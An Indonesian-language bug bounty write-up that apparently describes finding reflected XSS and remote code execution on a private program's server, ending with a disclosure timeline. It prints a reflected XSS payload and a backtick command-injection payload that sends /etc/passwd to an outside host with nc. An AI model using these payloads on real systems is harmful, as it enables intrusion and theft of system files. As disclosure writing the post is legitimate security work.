```yaml
---
layout: post
title: "[Bug Bounty] RCE and XSS on Private Program Cyber Army"
date: 2019-02-14 07:00
categories: bugbounty
---
```


### <b>Prolog</b>
Diberikan 2 alamat yang masuk dalam scope, yaitu  sub.[redacted].id dan subdomain.[redacted].id, ternyata 2 domain tersebut terdapat dalam 1 server dengan aplikasi yang serupa, jadi total ada 6 vuln yang saya temukan.
- 4 XSS
- 2 RCE

### <b>Reconnaissance</b>
Pada tahap reconnaissance,saya menggunakan nmap dengan perintah
`nmap sub.[redacted].id`

Disana terdapat beberapa port yang open, saya tertarik dengan port 8010. Pada saat tulisan ini dibuat saya coba scan lagi ternyata sudah filtered.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/1.png?raw=true">
</div>


Saat saya buka sub.[redacted].id:8010, disana terdapat form login yang diketahui credentialnya menggunakan user dan password public:public. Disana terdapat beberapa menu (lupa screenshot). 

### <b>XSS via POST Request
Untuk metode XSS ini berdampak pada 2 fungsi/menu:
- Menu dblist
- Menu dnsbse

Saya tertarik dengan fungsi search yg ada di menu dnsbse, disana ada form search yang merequest google search engine. Saya coba searcing "test", ternyata inputan kita ditampilkan di browser,hmmmm... Langsung terpikir untuk input payload XSS, dengan mengirim payload XSS sejuta ummat `"><script>alert("p00w")</script>` ternyata payload dirender dengan baik.

### POC :
- Script : https://pastebin.com/raw/zZN1pfSY

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/2.png?raw=true">
</div>



### <b>Remote Code Execution</b>
Masih ingat menu dnsbse? Tadi yang kita bahas kalau fungsi dnsbse juga merequest search engine google dan menampilkan hasilnya disana. Saya tebak kalau fungsi dnsbse itu pake curl buat request ke server googlenya,asumsinya kira-kira seperti ini:
`shell_exec('curl {website with request}')`

Saya pikir ini bisa diexploitasi dengan SSRF (Server Side Request Forgery);

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/3.png?raw=true">
</div>

setelah mencoba beberapa payload SSRF, ternyata zonk wwkwkw `>_<` 
Saya sambil baca-baca referensi, akhirnya ketemu cara bypass stringnya hanya menggunakan backtick, sehingga kita dapat menjalankan perintah shell pada `shell_exec` tadi. 

Saya masukin request ke repeater di burp, lalu saya masukin payload `cat /etc/passwd | nc XXX.199.221.101 9091` pada parameter server, dan didapatkan result:
<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/4.png?raw=true">
</div>

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/5.png?raw=true">
</div>



- 12 February Send Report
- 13 February Validation
- 14 February disclose
- Rewarded


### <b>Reference:</b>
- https://medium.com/@uranium238/getting-a-rce-ctf-way-2fd612fb643f

### <b>Thanks:</b>
- Ngesec
- Surabaya Hacker Link
- You!